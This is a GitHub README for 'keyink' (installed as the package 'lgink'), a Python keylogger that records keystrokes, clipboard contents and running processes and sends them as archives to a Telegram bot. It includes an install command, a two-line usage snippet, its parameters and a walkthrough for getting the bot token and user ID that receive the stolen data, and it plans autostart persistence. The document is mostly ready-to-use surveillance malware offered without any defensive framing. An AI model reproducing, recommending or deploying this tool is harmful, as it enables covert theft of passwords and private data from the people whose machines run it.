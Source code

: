 [![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)

# keyink

The keylogger in just 2 lines. Sending to Telegram.

## Description
`keyink` is just starting its development. Its functionality will be expanded in the future.

## Navigation
* [Current features](#Сurrent-features)
* [Future features](#Future-features)
* [Installation](#Installation)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
* [Telegram bot setup](#Telegram-bot-setup)
  * [Getting token](#Getting-token)
  * [Getting id](#Getting-id)

### Current features
1. Logging of keyboard, clipboard, running processes.
2. Sending collected data as an archive to Telegram.
3. Running in a separate thread.

### Future features
1. Adding other loggers.
2. Adding to the system autostart.
 
## Installation

You can install the latest version with the command:
```
pip install lgink==0.0.1
```

## Example usage
### Standard
```python
from lgink.multilogger import Logger

Logger(token="YOUR_TOKEN", user_id=YOUR_ID, iteration_pause=60).run()
```
The standard ```Logger``` launches all available loggers and sends the collected data as an archive to you in Telegram every hour.

Transmitted parameters:
* `token` - bot's Telegram token.
* `user_id` - your Telegram id.
* `keyboard` - add keyboard logger (True/False).
* `clipboard` - add a clipboard logger (True/False).
* `processes` - add process logger (True/False).
* `special_keys` - add special keys Enter, Shift, Alt etc. to logs (True/False).
* `processes_pause` - check frequency of running processes in seconds.
* `iteration_pause` - frequency of sending collected logs in seconds.

## Telegram bot setup
### Getting token
1. Open a chat with [BotFather](https://t.me/botfather).
2. Write the command ```/newbot```.

<p align="left">
  <a href="">
    <img src="_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Write the name of the bot, then the nickname with the attribute ```_bot``` at the end.

<p align="left">
  <a href="">
    <img src="_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Insert the resulting token into the ```YOUR_TOKEN``` field in the script.

### Getting id
1. Open a chat with [Get My ID](https://t.me/getmyid_bot).
2. Write the command ```/start```.

<p align="left">
  <a href="">
    <img src="_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Insert the resulting ID into the ```YOUR_ID``` field in the script.
